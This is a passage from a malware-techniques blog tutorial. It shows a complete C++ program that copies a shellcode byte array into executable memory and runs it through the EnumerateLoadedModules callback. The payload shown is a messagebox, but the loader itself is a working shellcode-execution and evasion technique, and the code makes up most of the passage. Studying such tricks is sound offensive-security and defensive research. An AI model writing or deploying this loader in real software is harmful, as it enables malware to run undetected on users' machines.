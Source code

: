 As you can see, our callback function printed our "evil" DLL. Perfect!   

### practical example 3. shellcode running via callback function.    

This is the most interesting example. It turns out that you can run shellcode using the callback function in this API:    

```cpp
/*
 * hack3.cpp - run shellcode via EnumerateLoadedModules. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <windows.h>
#include <dbghelp.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumerateLoadedModules(GetCurrentProcess(), (PENUMLOADED_MODULES_CALLBACK)mem, NULL);
  return 0;
}
```

If you have been reading my blog for a long time, then I think you have a deja vu. As you can see, it's similar to run shellcode via [EnumDesktopsA](/tutorial/2022/06/27/malware-injection-20.html) and [EnumChildWindows](/malware/2022/07/13/malware-injection-21.html). The only difference is just add `dbghelp.h`. As usually, for simplicity I used `meow-meow` messagebox payload:    
